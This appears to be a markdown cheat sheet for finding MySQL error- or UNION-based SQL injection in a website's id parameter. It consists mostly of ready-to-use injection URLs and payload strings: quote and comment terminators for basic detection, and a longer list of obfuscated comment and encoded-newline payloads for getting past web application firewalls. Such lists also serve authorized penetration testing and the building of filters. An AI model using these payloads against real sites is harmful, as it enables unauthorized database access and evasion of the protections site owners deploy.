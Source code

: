 
## ¶‣ MySQL Error or UNION based SQLi
```
This one is the easiest of all SQLi attacks.
```


- SQLi Detection (No WAF):

> - Website Loads successfully
> ```sql
> https://www.example.com/index.php?id=1
> ```

> - You'll get an error:
> ```sql
> https://www.example.com/index.php?id=1'
> ```
> ```sql
> https://www.example.com/index.php?id=1\'
> ```
> ```sql
> https://www.example.com/index.php?id=-1'
> ```
> ```sql
> https://www.example.com/index.php?id=-1)'
> ```

> - Website loads successfully:
> ```sql
> https://www.example.com/index.php?id=1 and 0' order by 1--+
> ```
> ```sql
> https://www.example.com/index.php?id=2-1
> ```

> - Website might load successfully, but might also show error
> ```sql
> https://www.example.com/index.php?id=-1'-- -
> ```
> ```sql
> https://www.example.com/index.php?id=1'--
> ```
> ```sql
> https://www.example.com/index.php?id=1+--+
> ```

> - Payload:
> ```sql
> '
> \'
> )'
> "
> \"
> )"
> ```

---

- SQLi Detection (Bypassing WAF + if the above Methodology didn't work)

> - In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF. If no WAF warnings are shown and website loads successfully, we can confirm that the vulnerability exists.

> - We should try the following payloads.
> ```
> https://www.example.com/index.php?id=1'--/**/-
> https://www.example.com/index.php?id=/*!500001'--+-*/
> https://www.example.com/index.php?id=1/^.*1'--+-.*$/
> https://www.example.com/index.php?id=1'--/*--*/-
> https://www.example.com/index.php?id=1'--/*&a=*/-
> https://www.example.com/index.php?id=1'--/*1337*/-
> https://www.example.com/index.php?id=1'--/**_**/-
> https://www.example.com/index.php?id=1'--%0A-
> https://www.example.com/index.php?id=1'--%0b-
> https://www.example.com/index.php?id=1'--%0d%0A-
> https://www.example.com/index.php?id=1'--%23%0A-
> https://www.example.com/index.php?id=1'--%23foo%0D%0A-
> https://www.example.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-
> https://www.example.com/index.php?id=1'--#qa%0A#%0A-
> https://www.example.com/index.php?id=/*!20000%0d%0a1'--+-*/
> https://www.example.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/
> ```

> - Payloads
> ```
> '--/**/-
> /*!500001'--+-*/
> /^.*1'--+-.*$/
> '--/*--*/-
> '--/*&a=*/-
> '--/*1337*/-
> '--/**_**/-
> '--%0A-
> '--%0b-
> '--%0d%0A-
> '--%23%0A-
> '--%23foo%0D%0A-
> '--%23foo*%2F*bar%0D%0A-
> '--#qa%0A#%0A-
> /*!20000%0d%0a1'--+-*/
> /*!blobblobblob%0d%0a1'--+-*/
> ```
